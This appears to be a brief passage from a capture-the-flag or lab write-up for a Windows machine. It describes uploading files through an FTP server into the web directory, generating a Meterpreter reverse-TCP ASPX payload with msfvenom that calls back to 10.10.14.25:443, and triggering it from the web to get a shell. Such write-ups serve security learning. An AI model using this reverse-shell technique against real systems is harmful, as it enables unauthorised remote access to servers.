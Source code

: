 We are able to upload anything in the web directory using `ftp`server

# Reverse Shell using metasploit
---
- We can see that the technology is `asp`, so let's try that
- `msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.25 lport=443 -f aspx -o rev.aspx`
- Upload it on ftp server
- Setup msfconsole with same options and access `rev.aspx`from web
	- ![[Pasted image 20250426160632.png]]
	- ![[Pasted image 20250426160625.png]]
